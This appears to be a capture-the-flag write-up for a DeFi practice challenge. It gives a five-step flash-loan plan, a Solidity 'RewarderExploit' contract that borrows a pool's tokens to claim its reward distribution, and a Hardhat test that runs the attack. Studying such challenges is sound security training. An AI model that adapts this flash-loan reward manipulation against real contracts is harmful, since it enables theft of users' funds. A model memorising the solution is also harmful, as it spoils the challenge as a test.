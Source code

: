 1. Take out a flash loan
2. Deposit the flash loan amount in the rewarder pool. This will trigger the rewards distribution.
3. Withdraw the deposit
4. Return the flashloan
5. Send the rewards to the attacker

Solution (contract):

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./FlashLoanerPool.sol";
import "./TheRewarderPool.sol";
import "@openzeppelin/contracts/token/ERC20/IERC20.sol";

contract RewarderExploit {
    IERC20 token;
    IERC20 reward;
    FlashLoanerPool pool;
    TheRewarderPool rewardPool;

    constructor(
        address _pool,
        address _token,
        address _rewardPool,
        address _reward
    ) {
        pool = FlashLoanerPool(_pool);
        token = IERC20(_token);
        reward = IERC20(_reward);
        rewardPool = TheRewarderPool(_rewardPool);
    }

    function attack() public {
        pool.flashLoan(token.balanceOf(address(pool)));
        reward.transfer(msg.sender, reward.balanceOf(address(this)));
    }

    function receiveFlashLoan(uint256 _amount) external {
        token.approve(address(rewardPool), _amount);
        rewardPool.deposit(_amount);
        rewardPool.withdraw(_amount);

        token.transfer(address(pool), _amount);
    }
}
```

Solution (challenge):

```javascript
it('Exploit', async function () {
        /** CODE YOUR EXPLOIT HERE */
        const RewarderExploitFactory = await ethers.getContractFactory('RewarderExploit', deployer);
        const deployedContract = await RewarderExploitFactory.deploy(
            this.flashLoanPool.address,
            this.liquidityToken.address,
            this.rewarderPool.address,
            this.rewardToken.address);

        await ethers.provider.send("evm_increaseTime", [5 * 24 * 60 * 60]);
        const exploit = deployedContract.connect(attacker)
        await exploit.attack()
    });
```